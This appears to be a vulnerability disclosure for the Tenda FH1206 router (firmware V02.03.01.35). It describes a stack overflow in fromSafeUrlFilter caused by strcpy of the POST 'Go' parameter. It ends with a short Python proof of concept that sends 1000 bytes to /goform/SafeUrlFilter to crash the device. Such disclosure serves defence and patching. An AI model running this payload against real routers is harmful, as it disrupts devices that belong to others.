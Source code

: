 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeUrlFilter.`This function accepts the `Go` parameter from a POST request. The statement ` strcpy(v16,v1);` leads to a buffer overflow. The user-supplied `Go` can exceed the capacity of the `v16` array, thus triggering this security vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-02 155515.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-02 155507.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeUrlFilter"
payload = b"a"*1000

data = {"Go": payload, "menufacturer": "tenda"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)
